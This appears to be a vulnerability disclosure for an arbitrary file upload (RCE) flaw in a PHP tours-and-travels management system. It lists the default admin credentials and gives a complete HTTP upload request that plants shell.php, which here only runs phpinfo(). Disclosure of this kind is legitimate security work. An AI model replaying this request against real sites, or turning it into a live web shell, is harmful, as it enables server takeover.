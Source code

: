 # Online Tours & Travels Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: Dig-Bick

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

Vulnerability url: ip/tour/admin/operations/admin.php?id=2

Loophole location: Online Tours & Travels management system's update_profile.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /tour/admin/operations/admin.php?id=2 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/tour/admin/update_profile.php
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------27994107238879
Content-Length: 856

-----------------------------27994107238879
Content-Disposition: form-data; name="fname"

Mayuri
-----------------------------27994107238879
Content-Disposition: form-data; name="lname"

K
-----------------------------27994107238879
Content-Disposition: form-data; name="email"

mayuri.infospace@gmail.com
-----------------------------27994107238879
Content-Disposition: form-data; name="contact"

+919405716239
-----------------------------27994107238879
Content-Disposition: form-data; name="file"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------27994107238879
Content-Disposition: form-data; name="old_img"

133.jpeg
-----------------------------27994107238879
Content-Disposition: form-data; name="update"


-----------------------------27994107238879--
```

The files will be uploaded to this directory \tour\admin\upload

![image](https://user-images.githubusercontent.com/54017627/183005962-c304702a-96f0-48bc-b123-823bcea4f549.png)

We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/183006028-cd7df3bf-28e0-432d-a1ca-73d98e747605.png)
